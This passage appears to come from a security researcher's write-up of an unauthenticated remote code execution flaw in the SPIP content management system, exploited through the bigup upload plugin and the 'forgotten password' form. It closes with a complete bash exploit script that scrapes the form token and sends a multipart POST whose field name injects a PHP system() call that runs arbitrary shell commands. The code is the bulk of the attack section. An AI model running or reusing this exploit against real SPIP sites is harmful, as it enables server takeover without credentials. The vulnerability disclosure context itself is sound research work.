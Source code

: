 ```bash
	}
	return $flux;
}
```

> Note the `Branchement sur la réception d'un formulaire (avant verifier())` in the comment, clearly stating that all this logic (including eval) will take place before the verification/validation steps take place.. 😅

From there, I took one page that is almost always present, the "forgotten password" one!

- http://0.0.0.0:8000/spip.php?page=spip_pass&lang=fr

What I wanted to have in the request, is the `formulaire_action_args` protected and encoded variable at hand:

 - I want to submit a `form`, therefore requiring `formulaire_action_args`
 - With extra "files" (our RCE payload)
 - With our extra `bigup_retrouver_fichiers` param to enable the bigup part!

![formulaire_action_args](formulaire_action_args.png)

Any extra steps? Nope! It worked right away! 🍀

## Unauth Spip RCE Final Exploit

As a script, this gives us the following concise exploit:

```bash
echo foo > foo.txt
cmd="id; date"
formulaire_action_args=$(curl -k 'http://127.0.0.1:8000/spip.php?page=spip_pass&lang=fr' | grep -F formulaire_action_args -C 3 | grep -ioP '[0-9a-zA-Z_/=+]{30,}')
echo "formulaire_action_args: $formulaire_action_args"
formulaire_action_args_encoded=$(python3 -c "import sys; from urllib.parse import quote; print(quote(sys.argv[1], safe=str()))" "$formulaire_action_args")
echo "formulaire_action_args_encoded: $formulaire_action_args_encoded"
base_url="http://0.0.0.0:8000/spip.php?page=spip_pass&lang=fr&page=spip_pass&lang=fr"
final_payload="formulaire_action=oubli&formulaire_action_args=$formulaire_action_args_encoded&formulaire_action_sign=&oubli=foo%40foo.foo&nobot=&bigup_retrouver_fichiers=1"
curl -ki -X POST -F "RCE['.system('$cmd').die().'][][ll]=@foo.txt" "$base_url&$final_payload"
```
